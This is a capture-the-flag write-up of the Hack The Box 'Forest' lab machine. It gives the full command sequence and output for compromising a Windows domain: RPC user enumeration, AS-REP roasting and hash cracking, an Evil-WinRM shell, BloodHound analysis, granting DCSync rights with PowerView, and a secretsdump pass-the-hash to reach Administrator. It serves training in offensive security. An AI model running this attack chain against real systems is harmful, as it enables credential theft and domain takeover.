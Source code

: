 ```yaml
---
permalink: /posts/HTB/Forest
title:  "HTB Forest"
author: Luc Kolen
description: "Forest is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB
  - Windows
  - RPC
  - AS-Rep roasting
  - BloodHound
---
```

# 10.10.10.161 - Forest

- [10.10.10.161 - Forest](#101010161---forest)
  - [Open ports](#open-ports)
    - [TCP](#tcp)
    - [UDP](#udp)
  - [Enumerate users via RPC](#enumerate-users-via-rpc)
  - [AS-REP Roasting](#as-rep-roasting)
  - [Evil-WinRM](#evil-winrm)
  - [Privilege escalation](#privilege-escalation)

## Open ports

### TCP

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.161
```

|Port|Service|
|---|---|
88/tcp|kerberos-sec
135/tcp|msrpc
139/tcp|netbios-ssn
389/tcp|ldap
445/tcp|microsoft-ds
464/tcp|kpasswd5?
593/tcp|ncacn_http
636/tcp|tcpwrapped
3268/tcp|ldap
3269/tcp|tcpwrapped
5985/tcp|Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp|mc-nmf
47001/tcp|Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp|msrpc
49665/tcp|msrpc
49666/tcp|msrpc
49667/tcp|msrpc
49671/tcp|msrpc
49676/tcp|ncacn_http
49677/tcp|msrpc
49684/tcp|msrpc
49706/tcp|msrpc

### UDP

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ nmap -vv --reason -Pn -sU -A --top-ports=20 --version-all 10.10.10.161
```

|Port|Service|
|---|---|
53/udp|domain
123/udp|ntp

## Enumerate users via RPC

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
...
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

## AS-REP Roasting

Accounts that don't require pre authentication can be abused to get valid password hashes. GetNPUsers.py can be used to get these hashes.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb/svc-alfresco -no-pass -dc-ip 10.10.10.161
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:413: SyntaxWarning: "is" with a literal. Did you mean "=="?
  if domain is '':
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04
```

Hashcat can be used to crack this hash

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ echo '$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04' > hashes
luc@kali:~/Documents/Cyber-security/HTB/Forest$ hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt
...
$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04:s3rvice
...
```

The password for the user `svc-alfresco` is `s3rvice`.

## Evil-WinRM

These credentials can be used to get a shell via `Evil-WinRM` and to read the user.txt file

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
e5e4e47a************************
```

## Privilege escalation

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ cp /opt/BloodHound/Ingestors/SharpHound.ps1 .
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> upload SharpHound.ps1
Info: Uploading SharpHound.ps1 to C:\Users\svc-alfresco\Desktop\SharpHound.ps1

Data: 1297080 bytes of 1297080 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> Import-module ./SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/10/2020   4:18 AM          15449 20200610041827_BloodHound.zip
-a----        6/10/2020   4:18 AM          23611 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        6/10/2020   4:16 AM         972811 SharpHound.ps1
-ar---        9/23/2019   2:16 PM             32 user.txt


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> download 20200610041827_BloodHound.zip
Info: Downloading C:\Users\svc-alfresco\Desktop\20200610041827_BloodHound.zip to 20200610041827_BloodHound.zip

Info: Download successful!
```

Before starting Bloodhound we have to start Neo4j

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ sudo neo4j console
```

![Neo4j login](/assets/images/HTB-Forest/1.a%20neo4j%20login.png)

Now we can start Bloodhound and import the data

```bash
luc@kali:/opt/BloodHound-Binaries$ sudo ./BloodHound --no-sandbox
```

![Bloodhound upload data](/assets/images/HTB-Forest/1.b%20Bloodhound%20upload%20data.png)

![Bloodhound shortest path to domain admin](/assets/images/HTB-Forest/1.c%20Bloodhound%20shortest%20path%20to%20domain%20admin.png)

We've access to svc-alfresco who has GenericAll permissions on the Exchange Windows Permissions group. This allows us to add svc-alfresco to this group. The Exchange Windows Permissions group has WriteDacl permissions on the domain. We can use this to grant DCSync privileges.

We need to use the dev branch of `PowerSploit` to use the `Add-DomainObjectAcl` function in `PowerView.ps1`.

```bash
luc@kali:/opt$ sudo git clone https://github.com/PowerShellMafia/PowerSploit/ -b dev
luc@kali:~/Documents/Cyber-security/HTB/Forest$ cp /opt/PowerSploit/Recon/PowerView.ps1 .
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> upload PowerView.ps1
Info: Uploading PowerView.ps1 to C:\Users\svc-alfresco\Desktop\PowerView.ps1

Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> import-module ./powerview.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net group "Exchange Windows Permissions" svc-alfresco /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $password = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $credentials = New-Object System.Management.Automation.PSCredential ("htb\svc-alfresco", $password)
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> Add-DomainObjectAcl -Credential $credentials -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Now that we've DCSync rights we can use `secretsdump.py` to get all hashes and we can use those to get a shell via `Evil-WinRM`.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py svc-alfresco:s3rvice@10.10.10.161
...
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
luc@kali:~/Documents/Cyber-security/HTB/Forest$ evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
f048153f************************
```

